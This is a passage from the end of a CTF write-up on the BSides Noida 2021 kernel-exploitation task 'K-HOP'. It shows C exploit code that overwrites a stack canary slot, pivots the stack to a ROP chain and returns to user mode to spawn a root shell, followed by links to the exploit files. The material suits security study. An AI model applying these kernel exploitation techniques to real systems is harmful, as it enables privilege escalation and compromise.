     memcpy(&mem[48], &canary, 8);
    memset(&mem[56], '\x00', 48);

    uint64_t stack_pivot_addr = 3500;
    memcpy(&mem[104], &pop_rsp, 8);
    memcpy(&mem[112], &stack_pivot_addr, 8);
    mem[120] = '\n';

    memcpy(&mem[3500], &chain, sizeof(chain));
    save_state();

    uint64_t *context = &mem[3500+sizeof(chain)];
    context[0] = &drop_shell;
    context[1] = user_cs;
    context[2] = user_rflags;
    context[3] = user_sp;
    context[4] = user_ss;
    context[5] = 10;

    read(rop, s, 96);

    return 0;
}
{% endhighlight %}

We are testing our [exploit](/assets/2021-08-10-BSides-Noida-CTF-2021-Pwn-K-HOP/exploit.c).

![](/assets/2021-08-10-BSides-Noida-CTF-2021-Pwn-K-HOP/image8.png)

Great, the task has been solved.

All files (kernel image, FS, exploit, source code, help scripts) you can
find by this [link](/assets/2021-08-10-BSides-Noida-CTF-2021-Pwn-K-HOP/khop_tasks_files_and_exploit.7z).

**Summary**: For me, this task was quite interesting, because for the first time I solved the problem of kernel-pwn in a CTF.

